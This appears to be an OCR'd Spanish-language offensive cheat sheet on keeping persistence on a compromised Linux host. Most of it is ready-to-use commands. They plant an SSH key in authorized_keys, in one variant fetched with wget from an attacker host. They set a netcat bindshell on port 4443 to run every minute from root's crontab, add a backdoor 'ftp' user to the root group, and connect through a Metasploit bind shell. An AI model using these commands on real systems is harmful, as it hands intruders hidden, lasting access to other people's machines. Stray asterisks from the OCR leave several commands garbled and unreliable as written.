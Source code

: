# Ganado Persistencia en Linux
## Malicious SSH Key [ *con credenciales* ]
### Generación de par de claves
```bash
**ssh-keygen** -t rsa -b 4096

*# En caso de que se solicite una contraseña tenemos la opción de dejarlo en blanco*
```

### Tranferencia de la clave pública al usuario comprometido
```bash
**ssh-copy-id** *<victim-user>***@***<target-ip-or-hostname>

# Se solicitará la contraseña del usuario*
```

### Conexión con SSH
```bash
**ssh** *<victim-user>***@***<target-ip-or-hostname>*
```

## Malicious SSH Key [ *sin credenciales* ]
### Generación de par de claves
```bash
**ssh-keygen** -t rsa -b 4096

*# En caso de que se solicite una contraseña tenemos la opción de dejarlo en blanco*
```

### Inicialización de servidor Python
```bash
**cd** ~/.ssh/
**
**python3** -m http.server 80

*# Alternativa con Python2.7*
**python2** -m SimpleHTTPServer 80
```

### Descargar archivo [ *máquina atacante* ]
```bash
**wget** http://*<attacker-ip>/id_rsa.pub*

**cat** *id_rsa.pub >> .ssh/authorized_keys*
```

## Malicious Crontab
### Creación de bindshell
```bash
**echo** 'nc -lkvnp 4443 -e /bin/bash >/dev/null &' > /tmp/bindshell
```

### Creación de crontab maliciosa
```bash
**echo '*** * * * * /tmp/bindshell' | sudo tee -a /var/spool/cron/crontabs/root
```

## New User
### Creación de nuevo usuario
```bash
**adduser** -m ****user -s /bin/bash **ftp**
```

### Cambio de contraseña
```bash
**passwd** ftp
```

### Agregar el usuario a grupo root
```bash
**usermod** -aG root **ftp**
```

## Extra
### Obteniendo conexión con Bindshell
```bash
**use** payload/generic/shell_bind_tcp

**set** RHOST <target-ip>

**set** LPORT <local-port>

**exploit**
```

### Obteniendo conexión con Bindshell
```bash
*# CTRL + Z o escribe 'background' para poner la sesión previamente obtenida en segundo plano*

**sessions** -l
**
**sessions** -u <session-id>

**sessions** <session-id>
```